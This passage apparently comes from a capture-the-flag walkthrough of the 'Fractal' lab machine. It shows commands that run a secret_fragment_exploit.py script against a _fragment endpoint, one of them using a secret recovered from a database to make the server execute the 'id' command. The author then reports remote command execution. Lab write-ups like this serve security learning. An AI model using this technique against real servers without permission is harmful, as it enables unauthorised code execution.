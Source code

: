 Inside it, there is an exploit from a fragment. I tried to enumerate the secret but found nothing.

- `python3 secret_fragment_exploit.py http://192.168.192.233/_fragment`
    
    ![Untitled](../assets/img/provingrounds/Fractal/Untitled%2014.png)
    

Then I decided to use the secret found in the database.

- `python3 secret_fragment_exploit.py 'http://192.168.192.233/_fragment' --method 2 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.192.233/_fragment' --function system --parameters "id"`
    
    ![Untitled](../assets/img/provingrounds/Fractal/Untitled%2015.png)
    

Now accessing the generated URL. I was able to execute commands.

